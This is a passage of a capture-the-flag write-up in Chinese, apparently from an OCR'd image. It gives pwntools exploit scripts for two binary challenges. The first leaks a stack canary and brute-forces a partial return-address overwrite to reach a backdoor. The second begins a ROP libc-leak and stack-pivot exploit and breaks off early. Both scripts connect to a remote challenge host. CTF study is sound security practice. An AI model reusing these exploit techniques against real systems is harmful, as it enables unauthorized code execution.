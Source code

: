 Pwn
it_is_a_canary
覆盖\x00将canary泄露出来，然后partial write爆破backdoor
from pwn import *
context(arch='amd64',log_level='debug')
file = './pwn'
io = process(file)
elf = ELF(file)
libc = elf.libc

# gdb.attach(io,'b *$rebase(0x12C5)')
s       = lambda data               :io.send(data)
sa      = lambda text,data          :io.sendafter(text, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda text,data          :io.sendlineafter(text, data)
r       = lambda num=4096           :io.recv(num)
rl      = lambda                    :io.recvline()
ru      = lambda text               :io.recvuntil(text)
uu32    = lambda                    :u32(io.recvuntil(b"\xf7")[-4:].ljust(4,b"\x00"))
uu64    = lambda                    :u64(io.recvuntil(b"\x7f")[-6:].ljust(8,b"\x00"))
inf     =  lambda s                 :info(f"{s} ==> 0x{eval(s):x}")


while 1:
    try:
        io = process('./pwn')
        io = remote('27.25.151.26',61035)
        sa(b'nary?\n',b'a'*0x19)
        ru(b'a'*0x19)
        canary = u64(r(7).rjust(8,b'\x00'))
        inf('canary')
        stack = u64(r(6).ljust(8,b'\x00'))
        inf('stack')
        pay = b'a'*0x18+p64(canary)+p64(0)+p16(0x1253)
        s(pay)
        # gdb.attach(io)

        io.interactive()
    except KeyboardInterrupt:
        io.close()
        exit(0)
    except EOFError:
        io.close()
        continue
Libc
用rop泄露地址然后栈迁移一下就行
from pwn import *
context(arch='amd64',log_level='debug')
file = './pwn'
io = process(file)
elf = ELF(file)
libc = ELF('./libc.so.6')
# libc = elf.libc
io = remote('27.25.151.26',10581)
# gdb.attach(io)
s       = lambda data               :io.send(data)
sa      = lambda text,data          :io.sendafter(text, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda text,data          :io.sendlineafter(text, data)